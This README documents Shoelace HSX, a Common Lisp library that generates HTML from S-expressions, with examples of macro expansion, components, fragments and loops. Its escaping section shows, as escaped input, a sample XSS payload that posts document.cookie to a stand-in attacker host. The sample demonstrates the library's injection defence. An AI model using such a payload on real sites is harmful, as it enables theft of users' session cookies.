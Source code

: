 # Shoelace HSX – Hypertext S-expression

**Shoelace HSX** is a simple and powerful HTML generation library for Common Lisp, inspired by JSX. It allows you to write HTML using native Lisp syntax.

This is a fork of the original HSX library by @skyizwhite,
[find it here](https://github.com/skyizwhite/hsx)

It adds all the shoelace elements as builtins.

## ⚙️ How HSX Works

Every tag or component inside an `(shoelace-hsx ...)` form is transformed into a Lisp expression of the form:

```lisp
(create-element type props children)
```

For example:

```lisp
(shoelace-hsx
  (article :class "container"
    (h1 "Title")
    (p "Paragraph")
    (~share-button :service :x))
```
Is internally transformed (by macro expansion) into:

```lisp
(create-element :article
                (list :class "container")
                (list (create-element :h1
                                      (list)
                                      (list "Title"))
                      (create-element :p
                                      (list)
                                      (list "Paragraph"))
                      (create-element #'~share-button
                                      (list :service :x)
                                      (list))))
```

## 🚀 Quick Example

```lisp
(shoelace-hsx
  (div :id "main" :class "container"
    (h1 "Hello, HSX!")
    (p "This is a simple paragraph.")))
```

Generates:

```html
<div id="main" class="container">
  <h1>Hello, HSX!</h1>
  <p>This is a simple paragraph.</p>
</div>
```

## 📝 Rendering

Use `render-to-string` to convert an HSX structure to a string of HTML:

```lisp
(render-to-string
  (shoelace-hsx ...))
``` 

## 🔐 Escaping text

All elements automatically escape special characters in content to prevent XSS and HTML injection:

```lisp
(shoelace-hsx
  (div "<script>fetch('evilwebsite.com', { method: 'POST', body: document.cookie })</script>"))
```
Outputs:

```html
<div>&lt;script&gt;fetch(&#x27;evilwebsite.com&#x27;, { method: &#x27;POST&#x27;, body: document.cookie })&lt;&#x2F;script&gt;</div>
```

Use the special tag `raw!` to inject trusted, unescaped HTML:

```lisp
(shoelace-hsx
  (article (raw! "HTML text here ..."))
```

## 🧩 Fragments

Use `<>` tag to group multiple sibling elements without wrapping them in a container tag:

```lisp
(shoelace-hsx
  (<>
    (p "One")
    (p "Two")))
```

Outputs:

```html
<p>One</p>
<p>Two</p>
```

Note: `raw!` tag is a fragment that disables HTML escaping for its children.

## 🧱 Components

Define reusable components using `defcomp` macro. Component names must start with `~`.

*Keyword-style*

```lisp
(defcomp ~card (&key title children)
  (shoelace-hsx
    (div :class "card"
      (h2 title)
      children)))
```

*Property-list style*

```lisp
(defcomp ~card (&rest props)
  (shoelace-hsx
    (div :class "card"
      (h2 (getf props :title))
      (getf props :children))))
```

### Usage

```lisp
(shoelace-hsx
  (~card :title "Hello"
    (p "This is a card.")))
```

Outputs:

```html
<div class="card">
  <h2>Hello</h2>
  <p>This is a card.</p>
</div>
```

## 🧬 Logic and Interpolation

You can freely embed Lisp expressions, conditionals, and loops inside HSX forms:

```lisp
(shoelace-hsx
  (div
    (if (> (random 10) 5)
        (shoelace-hsx (p "High!"))
        (shoelace-hsx (p "Low!")))))
```

Or loop:

```lisp
(shoelace-hsx
  (ul
    (loop :for item :in todo-list :collect
      (shoelace-hsx (li item))))))
```

## Utils

- `(clsx &rest strs)`: A utility function for constructing class strings conditionally. It removes `nil` from the string list, then joins the remaining strings with spaces.

## 📄 License

MIT License

© 2024 Akira Tempaku

© 2018 Bo Yao (original [flute](https://github.com/ailisp/flute) project)
 
